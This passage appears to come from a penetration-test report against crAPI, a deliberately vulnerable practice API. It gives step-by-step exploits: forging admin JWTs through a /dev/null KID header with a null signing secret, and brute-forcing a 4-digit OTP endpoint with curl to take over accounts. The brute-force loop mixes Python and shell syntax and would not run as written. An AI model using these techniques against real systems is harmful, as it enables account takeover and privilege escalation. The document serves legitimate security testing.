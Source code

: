 **Prerequisites:** None

**Exploitation Steps:**

1. Create JWT token with KID header set to `/dev/null`:
```json
{
  "alg": "HS256",
  "kid": "/dev/null",
  "typ": "JWT"
}
```

2. Sign token with weak secret `AA==` (triggered by `/dev/null` KID):
```bash
# Python implementation
import base64
import hmac
import hashlib
weak_secret = base64.b64decode("AA==")
signature = hmac.new(weak_secret, token_data.encode(), hashlib.sha256).digest()
```

3. Test forged token with admin privileges:
```bash
curl -k -H "Authorization: Bearer [KID_FORGED_TOKEN]" "https://crapi.sandbox.local:8888/identity/api/v2/user/dashboard"
```

**Proof of Impact:**
- 100% success rate across 12 different KID injection payloads
- Successful privilege escalation to admin role
- Access to sensitive admin dashboard data
- Complete authentication bypass through weak secret exploitation

### AUTH-VULN-03: OTP Brute Force Attack on v2 Endpoint

**Summary:**
- **Vulnerable location:** `POST /identity/api/auth/v2/check-otp`
- **Overview:** Unlimited OTP brute force attempts on legacy v2 endpoint
- **Impact:** Complete account takeover through 4-digit OTP exhaustion
- **Severity:** Critical

**Prerequisites:**
- Trigger OTP generation via password reset for target user

**Exploitation Steps:**

1. Initiate password reset for target account:
```bash
curl -k -X POST "https://crapi.sandbox.local:8888/identity/api/auth/forget-password" -H "Content-Type: application/json" -d '{"email": "test@example.com"}'
```

2. Systematically test all 4-digit OTP codes on vulnerable v2 endpoint:
```bash
# Test range 0000-9999
for otp in range(10000):
    curl -k -X POST "https://crapi.sandbox.local:8888/identity/api/auth/v2/check-otp" -H "Content-Type: application/json" -d '{"otp": "' + str(otp).zfill(4) + '", "password": "NewPassword123!", "email": "test@example.com"}'
```
